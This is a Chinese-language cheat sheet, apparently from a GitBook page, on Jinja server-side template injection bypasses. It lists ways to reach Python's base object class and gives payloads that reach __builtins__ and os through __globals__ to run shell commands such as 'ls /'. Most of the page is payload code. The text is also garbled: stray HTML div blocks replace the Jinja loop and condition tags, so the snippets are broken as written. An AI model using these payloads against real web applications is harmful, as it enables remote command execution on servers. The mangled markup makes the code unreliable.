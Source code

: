 ```python
</div>

```

## Python模板注入绕过技巧

## Jinja SSTI 备忘录

#### 基类

```python
# bases 会返回元组形式 
>>> __bases__[0] == __base__
#因为 mro 会显示继承顺序，而所有类最终都继承自一个特殊的基类 object，所以 __mro__[-1] 总是能拿到基类
>>> __base__*N == __mro__[-1] 

[].__class__.__base__
''.__class__.__base__
().__class__.__base__
{}.__class__.__base__

request.__class__.__mro__[-1] # 需要导入过 request 模块
dict.__class__.__mro__[-1]
config.__class__.__base__.__base__
config.__class__.__base__.__base__
```

#### 通用 payload ( Python3 )

```python
# 命令执行_eval
 

<div data-gb-custom-block data-tag="for">

    

<div data-gb-custom-block data-tag="if" data-0='eval' data-1='eval' data-2='eval' data-3='eval' data-4='eval' data-5='eval' data-6='eval' data-7='eval' data-8='eval' data-9='eval' data-10='__builtins__' data-11='__builtins__' data-12='][' data-13='][' data-14='][' data-15=']['>

        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    

</div>

</div>

# 命令执行_os.py

<div data-gb-custom-block data-tag="for">

    

<div data-gb-custom-block data-tag="if" data-0='os' data-1='os' data-2='os' data-3='os' data-4='os' data-5='os' data-6='os' data-7='os' data-8='os' data-9='os' data-10='os' data-11='os' data-12='os'>

        {{ x.__init__.__globals__['os'].popen('ls /').read() }}
    

</div>

```
